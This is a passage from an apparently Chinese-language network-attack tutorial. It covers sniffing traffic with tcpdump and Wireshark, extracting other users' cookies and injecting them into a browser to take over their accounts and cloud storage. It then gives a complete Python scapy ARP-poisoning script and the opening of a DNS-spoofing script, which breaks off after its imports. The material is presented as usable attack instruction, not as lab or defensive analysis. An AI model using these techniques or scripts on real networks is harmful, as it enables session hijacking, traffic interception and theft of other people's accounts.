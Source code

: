 　　同时使用tcpdump抓包（当然也可以使用wireshark实时抓包并显示，但对本机压力比较大，建议使用tcpdump抓包，完成后再用wireshark显示）：

```shell
tcpdump -i eth0
```

　　![img](../../../../#ImageAssets/262353279026525-1573358989603.png)

　　经过一段时间的抓包之后就可以停止了。打开wireshark分析捕获到的数据包分析，使用过滤语法，找出含有cookies的数据包：

　　![img](../../../../#ImageAssets/270003052314382-1573358989603.png)　　

　　复制出cookies的值，并在浏览器中利用，这里推荐一款好用的cooikes利用工具cookie-injecting-tools（地址：https://github.com/lfzark/cookie-injecting-tools）。利用成功后，刷新页面，就可以进入到被人的主页和网盘了：

![img](../../../../#ImageAssets/270017361996663-1573358989635.png)  ![img](../../../../#ImageAssets/270018350278790-1573358989635.png)

### DNS欺骗：

　　使用ettercap进行的DNS欺骗是使用了它的一个插件，同时结合ARP欺骗，就可以达到很好的欺骗效果。这里不再重复介绍了。重点是下面使用python实现的ARP欺骗和DNS欺骗：

```shell
#!/usr/bin/python# arp-poisoning
 
import sys
from scapy.all import sniff, sendp, ARP, Ether
 
if len(sys.argv) < 2:
    print sys.argv[0] + " <iface>"
    sys.exit(0)
def arp_poison_callback(packet):
    # Got ARP request?
    if packet[ARP].op == 1:
        answer = Ether(dst=packet[ARP].hwsrc) / ARP()
        answer[ARP].op = "is-at"
        answer[ARP].hwdst = packet[ARP].hwsrc
        answer[ARP].psrc = packet[ARP].pdst
        answer[ARP].pdst = packet[ARP].psrc
 
        print "Fooling " + packet[ARP].psrc + " that " + \
              packet[ARP].pdst + " is me"
        sendp(answer, iface=sys.argv[1])
 
sniff(prn=arp_poison_callback,
      filter="arp",
      iface=sys.argv[1],
      store=0)
 
```

 

```bash
#!/usr/bin/env python
# dns-spoofing
#
# A simple DNS spoofing script
# It's batter with ARP-Spoofing
# and delete the local hosts file
# at same time.
# The hosts-file like this:
# 123.12.23.121 www.google.com
#
 
import sys
import getopt
import scapy.all as scapy
```
